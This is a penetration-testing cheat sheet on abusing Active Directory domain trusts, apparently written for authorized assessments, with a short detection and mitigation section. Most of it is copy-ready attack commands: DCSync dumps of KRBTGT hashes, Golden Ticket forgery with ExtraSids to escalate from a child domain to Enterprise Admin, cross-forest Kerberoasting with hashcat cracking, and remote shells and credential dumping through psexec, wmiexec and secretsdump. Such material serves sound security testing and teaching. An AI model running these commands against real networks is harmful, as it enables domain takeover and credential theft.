

# Domain Trusts

---

## Table of Contents

1. [Overview](#overview)
2. [Trust Types & Properties](#trust-types--properties)
3. [Trust Enumeration](#trust-enumeration)
4. [Trust Analysis](#trust-analysis)
5. [Child → Parent Trust Attacks](#child--parent-trust-attacks)
6. [Cross-Forest Trust Attacks](#cross-forest-trust-attacks)
7. [Detection & Mitigation](#detection--mitigation)
8. [Quick Reference](#quick-reference)

---

## Overview

Domain trusts establish authentication relationships between domains/forests, allowing users to access resources across domain boundaries. Common in M&A scenarios, MSP relationships, and multi-domain environments.

**Key Security Risks:**
- Misconfigured trusts create unintended attack paths
- Transitive trusts extend access beyond intended scope
- Bidirectional trusts increase attack surface
- Trust relationships often overlooked in security reviews

**Common Attack Scenarios:**
- Child domain compromise → Parent domain escalation
- Cross-forest Kerberoasting and credential reuse
- SID History injection across trust boundaries
- Foreign group membership abuse

---

## Trust Types & Properties

### Trust Types

| Trust Type | Description | Scope | Transitive | Common Use Case |
|------------|-------------|-------|------------|-----------------|
| **Parent-Child** | Between domains in same forest | Intra-forest | Yes | Organizational structure |
| **Cross-Link** | Between child domains (speeds auth) | Intra-forest | Yes | Performance optimization |
| **External** | Between separate domains in different forests | Inter-forest | No | Business partnerships |
| **Tree-Root** | Between forest root and new tree root | Intra-forest | Yes | Forest expansion |
| **Forest** | Between two forest root domains | Inter-forest | Yes | M&A scenarios |
| **ESAE** | Bastion forest for AD management | Administrative | Varies | Privileged access management |

### Trust Properties

| Property | Description | Security Implication |
|----------|-------------|---------------------|
| **Transitive** | Trust extends to domains the trusted domain trusts | Increases attack surface exponentially |
| **Non-Transitive** | Trust limited to direct relationship only | More secure, limited scope |
| **One-Way** | Users in trusted domain access trusting domain resources | Asymmetric risk |
| **Bidirectional** | Users from both domains can access each other's resources | Double attack surface |

---

## Trust Enumeration

### Windows Methods

```powershell
# Method 1: Built-in AD PowerShell Module
Import-Module ActiveDirectory
Get-ADTrust -Filter *
Get-ADTrust -Identity "TARGET-DOMAIN.LOCAL"

# Method 2: PowerView
Get-DomainTrust
Get-DomainTrustMapping
Get-DomainUser -Domain TARGET-DOMAIN.LOCAL | select SamAccountName
Get-DomainForeignGroupMember
Get-DomainForeignUser

# Method 3: netdom (Built-in Windows Tool)
netdom query /domain:CURRENT-DOMAIN.LOCAL trust
netdom query /domain:CURRENT-DOMAIN.LOCAL dc

# Method 4: nltest (Built-in Windows Tool)
nltest /domain_trusts
nltest /dclist:TARGET-DOMAIN.LOCAL
nltest /sc_query:TARGET-DOMAIN.LOCAL
```

### Linux Methods

```bash
# Using Impacket tools
lookupsid.py DOMAIN.LOCAL/USERNAME@DC.DOMAIN.LOCAL
GetADUsers.py -all DOMAIN.LOCAL/USERNAME -target-ip <DC_IP>
ldapsearch -x -H ldap://DC.DOMAIN.LOCAL -D "DOMAIN\\USERNAME" -W -b "DC=domain,DC=local" "(objectClass=trustedDomain)"
```

### BloodHound Trust Analysis

```cypher
-- Map Domain Trusts (pre-built query)
MATCH (n:Domain)-[r:TrustedBy]->(m:Domain) RETURN n,r,m

-- Find shortest path across trusts to Domain Admins
MATCH (n:User {domain:"TRUSTED-DOMAIN.LOCAL"}), (m:Group {name:"DOMAIN ADMINS@TARGET-DOMAIN.LOCAL"}), 
p=shortestPath((n)-[*1..]->(m)) RETURN p

-- Find users with cross-domain admin rights
MATCH (u:User)-[r:AdminTo]->(c:Computer) 
WHERE u.domain <> c.domain RETURN u,r,c
```

---

## Trust Analysis

### Key Properties to Analyze

| Property | Security Implication | Risk Level |
|----------|---------------------|------------|
| **Direction: BiDirectional** | Two-way access, higher attack surface | High |
| **ForestTransitive: True** | Can traverse entire forest | High |
| **IntraForest: False** | External/forest trust | Medium |
| **SIDFilteringQuarantined: False** | SID filtering disabled | Critical |
| **SelectiveAuthentication: False** | All users can authenticate | Medium |

### Sample Analysis Output

```powershell
# Example Get-ADTrust output analysis
Direction               : BiDirectional
DisallowTransivity      : False
ForestTransitive        : True
IntraForest             : False
SIDFilteringQuarantined : False
SelectiveAuthentication : False
```

---

## Child → Parent Trust Attacks

### SID History & ExtraSids Attack Overview

**Concept:** Compromise child domain → escalate to parent domain via SID History injection
**Key Insight:** Within same AD forest, SID filtering is disabled, so SID History is respected
**Result:** Create Golden Ticket with Enterprise Admin rights without actual group membership

### Prerequisites

| Requirement | How to Obtain | Windows Command | Linux Command |
|-------------|---------------|-----------------|---------------|
| **KRBTGT Hash** | DCSync attack | `mimikatz # lsadump::dcsync /user:CHILD-DOMAIN\krbtgt` | `secretsdump.py CHILD-DOMAIN.LOCAL/ADMIN@<DC_IP> -just-dc-user krbtgt` |
| **Child Domain SID** | PowerView/Built-in | `Get-DomainSID` | `lookupsid.py CHILD-DOMAIN.LOCAL/ADMIN@<DC_IP> \| grep "Domain SID"` |
| **Enterprise Admins SID** | PowerView query | `Get-DomainGroup -Domain PARENT-DOMAIN.LOCAL -Identity "Enterprise Admins"` | `lookupsid.py CHILD-DOMAIN.LOCAL/ADMIN@<PARENT_DC_IP> \| grep "Enterprise Admins"` |

### Windows Attack Execution

#### Method 1: Mimikatz Golden Ticket

```powershell
# 1. Extract KRBTGT hash
mimikatz # lsadump::dcsync /user:CHILD-DOMAIN\krbtgt

# 2. Get domain SIDs
Get-DomainSID  # Child domain SID
Get-DomainGroup -Domain PARENT-DOMAIN.LOCAL -Identity "Enterprise Admins" | select objectsid

# 3. Create Golden Ticket with ExtraSids
mimikatz # kerberos::golden /user:FAKE-USER /domain:CHILD-DOMAIN.LOCAL /sid:<CHILD_DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /sids:<ENTERPRISE_ADMINS_SID> /ptt

# 4. Verify access
klist
ls \\PARENT-DC.PARENT-DOMAIN.LOCAL\c$
```

#### Method 2: Rubeus Golden Ticket

```powershell
# Create Golden Ticket with Rubeus
.\Rubeus.exe golden /rc4:<KRBTGT_HASH> /domain:CHILD-DOMAIN.LOCAL /sid:<CHILD_DOMAIN_SID> /sids:<ENTERPRISE_ADMINS_SID> /user:FAKE-USER /ptt

# Test access and perform DCSync
mimikatz # lsadump::dcsync /user:PARENT-DOMAIN\TARGET-ADMIN /domain:PARENT-DOMAIN.LOCAL
```

### Linux Attack Execution

#### Method 1: Manual with ticketer.py

```bash
# 1. Extract KRBTGT hash
secretsdump.py CHILD-DOMAIN.LOCAL/ADMIN@<CHILD_DC_IP> -just-dc-user CHILD-DOMAIN/krbtgt

# 2. Get domain SIDs
lookupsid.py CHILD-DOMAIN.LOCAL/ADMIN@<CHILD_DC_IP> | grep "Domain SID"
lookupsid.py CHILD-DOMAIN.LOCAL/ADMIN@<PARENT_DC_IP> | grep -B12 "Enterprise Admins"

# 3. Create Golden Ticket
ticketer.py -nthash <KRBTGT_HASH> -domain CHILD-DOMAIN.LOCAL -domain-sid <CHILD_DOMAIN_SID> -extra-sid <ENTERPRISE_ADMINS_SID> FAKE-USER

# 4. Use ticket
export KRB5CCNAME=FAKE-USER.ccache
psexec.py CHILD-DOMAIN.LOCAL/FAKE-USER@PARENT-DC.PARENT-DOMAIN.LOCAL -k -no-pass -target-ip <PARENT_DC_IP>

# 5. Dumping creds on parent domain:
secretsdump.py FAKE-USER@PARENT-DC.PARENT-DOMAIN.LOCAL -k -no-pass -just-dc-ntlm -just-dc-user <username>
```

#### Method 2: Automated with raiseChild.py

```bash
# One-command escalation
raiseChild.py -target-exec <PARENT_DC_IP> CHILD-DOMAIN.LOCAL/ADMIN

# Automatically performs:
# 1. Gets Enterprise Admin SID
# 2. Extracts KRBTGT credentials  
# 3. Creates Golden Ticket
# 4. Retrieves parent domain Administrator credentials
# 5. Launches PSExec shell
```

---

## Cross-Forest Trust Attacks

### Attack Overview

Cross-forest trust abuse leverages bidirectional forest trusts to perform attacks across domain boundaries. Effective when:
- Bidirectional forest trusts exist between organizations
- Same administrative teams manage both forests
- SID filtering is disabled or misconfigured

### Cross-Forest Kerberoasting

#### Windows Method

```powershell
# 1. Enumerate SPNs in trusted domain
Get-DomainUser -SPN -Domain TRUSTED-DOMAIN.LOCAL | select SamAccountName

# 2. Check target account privileges
Get-DomainUser -Domain TRUSTED-DOMAIN.LOCAL -Identity TARGET-SPN-USER | select samaccountname,memberof

# 3. Perform cross-forest Kerberoasting
.\Rubeus.exe kerberoast /domain:TRUSTED-DOMAIN.LOCAL /user:TARGET-SPN-USER /nowrap

# 4. Crack hash
hashcat -m 13100 hash.txt /usr/share/wordlists/rockyou.txt
```

#### Linux Method

```bash
# 1. Enumerate SPNs across forest trust
GetUserSPNs.py -target-domain TRUSTED-DOMAIN.LOCAL CURRENT-DOMAIN.LOCAL/USERNAME

# 2. Request TGS tickets
GetUserSPNs.py -request -target-domain TRUSTED-DOMAIN.LOCAL CURRENT-DOMAIN.LOCAL/USERNAME -outputfile trusted_domain_tgs.txt

# 3. Crack hash
hashcat -m 13100 trusted_domain_tgs.txt /usr/share/wordlists/rockyou.txt

# 4. Log in to the target
python3 wmiexec.py TARGET-DOMAIN/<user>:<password>@DC-NAME.TARGET-DOMAIN.LOCAL
```

### Foreign Group Membership Abuse

```powershell
# Find users from other domains in local groups
Get-DomainForeignGroupMember -Domain TRUSTED-DOMAIN.LOCAL

# Convert SID to username
Convert-SidToName <FOREIGN_SID>

# Test cross-forest administrative access
Enter-PSSession -ComputerName TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -Credential CURRENT-DOMAIN\ADMIN-USER
```

### Cross-Forest BloodHound Analysis

#### Data Collection

```bash
# Configure DNS for trusted domains
sudo nano /etc/resolv.conf
# domain CURRENT-DOMAIN.LOCAL
# nameserver <CURRENT_DC_IP>

# Collect from primary domain
bloodhound-python -d CURRENT-DOMAIN.LOCAL -dc CURRENT-DC -c All -u USERNAME -p PASSWORD

# Update DNS and collect from trusted domain
# domain TRUSTED-DOMAIN.LOCAL  
# nameserver <TRUSTED_DC_IP>
bloodhound-python -d TRUSTED-DOMAIN.LOCAL -dc TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -c All -u USERNAME@CURRENT-DOMAIN.LOCAL -p PASSWORD

# Package data
zip -r cross_forest_bh.zip *.json
```

#### Key BloodHound Queries

```cypher
-- Find users with foreign domain group membership
MATCH (u:User)-[r:MemberOf]->(g:Group) 
WHERE u.domain <> g.domain 
RETURN u,r,g

-- Find cross-domain admin relationships
MATCH (u:User)-[r:AdminTo]->(c:Computer)
WHERE u.domain <> c.domain
RETURN u.name, u.domain, c.name, c.domain
```

### Cross-Forest Attack Flow



### Advanced Cross-Forest Techniques

```bash
# Cross-forest authentication testing
psexec.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP>
wmiexec.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP>
smbexec.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP>

# Cross-forest DCSync
secretsdump.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP>
secretsdump.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <TRUSTED_DC_IP> -just-dc-user TRUSTED-DOMAIN/krbtgt

# Cross-forest LDAP enumeration
ldapsearch -x -H ldap://TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -D "CURRENT-DOMAIN\\USERNAME" -W -b "DC=trusted-domain,DC=local" "(objectClass=user)"
ldapsearch -x -H ldap://TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -D "CURRENT-DOMAIN\\USERNAME" -W -b "DC=trusted-domain,DC=local" "(objectClass=group)"
```

---

## Detection & Mitigation

### Detection Indicators

| Attack Type | Indicator | Log Source | Event ID |
|-------------|-----------|------------|----------|
| **Golden Ticket** | Unusual Kerberos ticket properties | Domain Controller | 4769, 4768 |
| **Cross-Domain Auth** | Authentication from foreign domain | Domain Controller | 4769, 4624 |
| **SID History Usage** | Tokens with foreign SIDs | Domain Controller | 4627 |
| **Cross-Forest Kerberoasting** | TGS requests for foreign domain SPNs | Domain Controller | 4769 |

### Mitigation Strategies

#### Trust Configuration

```powershell
# Enable SID filtering (may break functionality)
netdom trust DOMAIN1 /domain:DOMAIN2 /EnableSIDHistory:No

# Enable selective authentication
netdom trust DOMAIN1 /domain:DOMAIN2 /SelectiveAuth:Yes

# Audit trust relationships
Get-ADTrust -Filter * | Export-Csv trust_audit.csv
```

#### Security Best Practices

- **Minimize Trust Relationships**: Only create when absolutely necessary
- **Enable SID Filtering**: Unless selective authentication is required  
- **Separate Administrative Accounts**: Different passwords across forests
- **Regular Trust Audits**: Review and remove unused trusts
- **Monitor Cross-Domain Activity**: Alert on unusual authentication patterns
- **Implement ESAE Model**: Use administrative forests for privileged operations
- **Regular KRBTGT Password Changes**: Invalidates Golden Tickets

---

## Quick Reference

### Trust Discovery Commands

```powershell
# Windows
Get-DomainTrust
Get-ADTrust -Filter *
nltest /domain_trusts

# Linux  
lookupsid.py DOMAIN.LOCAL/USERNAME@<DC_IP>
bloodhound-python -d DOMAIN.LOCAL -dc DC01 -c All -u USERNAME -p PASSWORD
```

### Child → Parent Escalation

```powershell
# Windows (Mimikatz)
mimikatz # lsadump::dcsync /user:CHILD-DOMAIN\krbtgt
mimikatz # kerberos::golden /user:FAKE-USER /domain:CHILD-DOMAIN.LOCAL /sid:<CHILD_SID> /krbtgt:<KRBTGT_HASH> /sids:<EA_SID> /ptt

# Linux (Impacket)
secretsdump.py CHILD-DOMAIN.LOCAL/ADMIN@<DC_IP> -just-dc-user krbtgt
ticketer.py -nthash <KRBTGT_HASH> -domain CHILD-DOMAIN.LOCAL -domain-sid <CHILD_SID> -extra-sid <EA_SID> FAKE-USER
export KRB5CCNAME=FAKE-USER.ccache
```

### Cross-Forest Attacks

```powershell
# Windows
Get-DomainUser -SPN -Domain TRUSTED-DOMAIN.LOCAL
.\Rubeus.exe kerberoast /domain:TRUSTED-DOMAIN.LOCAL /user:TARGET-USER /nowrap
Get-DomainForeignGroupMember -Domain TRUSTED-DOMAIN.LOCAL

# Linux
GetUserSPNs.py -target-domain TRUSTED-DOMAIN.LOCAL CURRENT-DOMAIN.LOCAL/USERNAME
GetUserSPNs.py -request -target-domain TRUSTED-DOMAIN.LOCAL CURRENT-DOMAIN.LOCAL/USERNAME
```

### Post-Exploitation

```powershell
# DCSync across trusts
mimikatz # lsadump::dcsync /user:TRUSTED-DOMAIN\TARGET-ADMIN /domain:TRUSTED-DOMAIN.LOCAL

# Cross-forest persistence
psexec.py TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL -target-ip <DC_IP>
secretsdump.py -k -no-pass TRUSTED-DOMAIN.LOCAL/ADMIN@TRUSTED-DC.TRUSTED-DOMAIN.LOCAL
```

### Variable Reference

| Placeholder | Description | Example |
|-------------|-------------|---------|
| `<DC_IP>` | Domain Controller IP Address | `10.10.10.100` |
| `<CHILD_DC_IP>` | Child Domain Controller IP | `192.168.1.10` |
| `<PARENT_DC_IP>` | Parent Domain Controller IP | `192.168.1.5` |
| `<TRUSTED_DC_IP>` | Trusted Domain Controller IP | `172.16.5.100` |
| `CURRENT-DOMAIN.LOCAL` | Current/Compromised Domain | `CORP.LOCAL` |
| `CHILD-DOMAIN.LOCAL` | Child Domain | `SUB.CORP.LOCAL` |
| `PARENT-DOMAIN.LOCAL` | Parent Domain | `CORP.LOCAL` |
| `TRUSTED-DOMAIN.LOCAL` | Trusted Domain | `PARTNER.LOCAL` |
| `USERNAME` | Domain Username | `jdoe` |
| `ADMIN` | Administrative Username | `administrator` |
| `PASSWORD` | User Password | `P@ssw0rd123!` |
| `<KRBTGT_HASH>` | KRBTGT NT Hash | `aad3b435b51404eeaad3b435b51404ee` |
| `<CHILD_SID>` | Child Domain SID | `S-1-5-21-1234567890-987654321-1122334455` |
| `<EA_SID>` | Enterprise Admins SID | `S-1-5-21-1234567890-987654321-1122334455-519` |
| `<FOREIGN_SID>` | Foreign Domain SID | `S-1-5-21-9876543210-123456789-5544332211-500` |
| `TARGET-USER` | Target Username | `svc_sql` |
| `FAKE-USER` | Non-existent Username | `hacker` |

---

## Notes

- **Always verify scope**: Ensure trusted domains are in scope before testing
- **Document all trusts**: Include in reports even if not exploited  
- **Check trust age**: Old trusts may be forgotten and misconfigured
- **Test both directions**: Bidirectional trusts = double the attack surface
- **Manual vs Automated**: Understand tools before using automation
- **Production caution**: Avoid "autopwn" scripts in client environments
- **Replace placeholders**: Substitute variables with actual values from your environment
- **Network connectivity**: Ensure proper routing between domains before testing
